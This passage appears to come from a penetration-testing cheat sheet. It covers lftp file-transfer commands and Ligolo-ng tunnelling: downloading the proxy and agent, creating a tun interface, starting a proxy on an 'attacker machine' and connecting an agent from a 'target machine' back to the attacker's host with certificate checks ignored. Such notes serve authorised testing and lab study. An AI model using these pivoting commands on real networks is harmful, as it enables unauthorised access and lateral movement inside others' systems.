 ```console
$ lftp -u <USERNAME>,<PASSWORD> <RHOST>
lftp <USERNAME>@<RHOST>:~> user <USERNAME>
lftp <USERNAME>@<RHOST>:~> dir
lftp <USERNAME>@<RHOST>:~> get <FILE>
lftp <USERNAME>@<RHOST>:~> put <FILE>
```

### Force SSL Verification

```console
lftp <USERNAME>@<RHOST>:~> ftp:ssl-force true
```

### Disable SSL Verification

```console
lftp <USERNAME>@<RHOST>:~> set ssl:verify-certificate off
```

## Ligolo

> https://github.com/nicocha30/ligolo-ng

### Download Proxy and Agent

> https://github.com/nicocha30/ligolo-ng/releases

```console
$ wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_agent_0.6.2_Linux_64bit.tar.gz
$ wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_proxy_0.6.2_Linux_64bit.tar.gz
```

### Prepare Tunnel Interface

```console
$ sudo ip tuntap add user $(whoami) mode tun ligolo
```

```console
$ sudo ip link set ligolo up
```

### Setup Proxy on Attacker Machine

```console
$ ./proxy -laddr <LHOST>:443 -selfcert
```

### Setup Agent on Target Machine

```console
$ ./agent -connect <LHOST>:443 -ignore-cert
```
